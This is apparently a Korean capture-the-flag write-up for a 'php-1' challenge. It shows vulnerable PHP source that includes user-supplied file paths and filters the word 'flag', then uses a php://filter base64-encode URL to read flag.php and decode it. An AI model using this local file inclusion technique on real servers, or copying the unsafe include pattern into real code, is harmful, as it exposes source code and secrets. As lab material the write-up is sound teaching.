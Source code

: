 # php-1

주어진 힌트는 LFI 취약점을 이용하며, 플래그는 /var/www/uploads/flag.php에 위치하는 것이다.    
<br/>

```
<?php
    include $_GET['page']?$_GET['page'].'.php':'main.php';
?>
```
문제에서 주어진 소스코드를 보면 index.php 에서 main.php 를 include 함수를 통해 GET 방식으로 불러온다는 것을 볼 수 있다.   
<br/>
```
<?php
    $file = $_GET['file']?$_GET['file']:'';
    if(preg_match('/flag|:/i', $file)){
        exit('Permission denied');
    }
    echo file_get_contents($file);
?>
```
또한 view.php에서는 flag 문자열을 필터링 하는 것을 알 수 있다.   
![image1](1.PNG)   
flag 문자열을 필터링 당한 모습이다.   
<br/>   
이러한 필터링은 php wrapper를 이용하면 우회할 수 있다.
php://filter의 경우, 서버안의 문서들을 열람할 수 있게 해주며
다음과 같은 방법을 활용하면, base64로 인코딩된 파일을 얻을 수 있다.
```
 www.[웹사이트주소]/?file=php://filter/convert.base64-encode/resource=파일명
```   
<br/>
이 방법을 이용하여 LFI를 시도하면 flag.php파일의 내용을 base64로 인코딩된 상태로 볼 수있다.   

![image2](2.PNG)   

<br/>
이를 디코딩하면 flag를 획득할 수 있다.

